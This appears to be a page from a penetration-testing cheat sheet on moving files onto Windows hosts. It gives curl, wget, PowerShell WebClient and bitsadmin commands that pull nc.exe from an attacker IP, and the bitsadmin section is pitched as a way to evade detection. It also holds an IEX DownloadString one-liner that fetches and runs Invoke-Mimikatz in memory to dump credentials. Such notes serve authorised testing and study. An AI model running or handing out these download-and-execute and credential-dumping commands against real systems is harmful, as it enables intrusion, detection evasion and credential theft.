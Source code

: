 {% tab title="curl/wget" %}
{% code title="curl" %}
```powershell
curl http://ip/file -o <output>
```
{% endcode %}

{% code title="wget" %}
```powershell
wget http://ip/file -OutFile <output>
```
{% endcode %}
{% endtab %}

{% tab title="System.Net.WebClient" %}
{% code title="" %}
```powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://ip/file', '<output>')
```
{% endcode %}
{% endtab %}

{% tab title="Bitsadmin" %}
* ### <mark style="color:purple;">Use Case:</mark>
  * <mark style="color:purple;">Download files stealthily.</mark>
  * <mark style="color:purple;">Evade detection, as</mark> <mark style="color:orange;">**`bitsadmin`**</mark> <mark style="color:purple;">is a native tool and might be overlooked by some security solutions.</mark>

```sh
bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
```

{% code title="Modern Version" overflow="wrap" %}
```powershell
Start-BitsTransfer -Source http://10.10.10.32/nc.exe -Destination C:\Temp\nc.exe
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% hint style="info" %}
### <mark style="color:purple;">In-memory execution</mark>

{% code title="Mimikatz" overflow="wrap" %}
```powershell
IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')
```
{% endcode %}
{% endhint %}

## <mark style="color:purple;">Useful binaries</mark>

{% embed url="https://github.com/andrew-d/static-binaries" %}
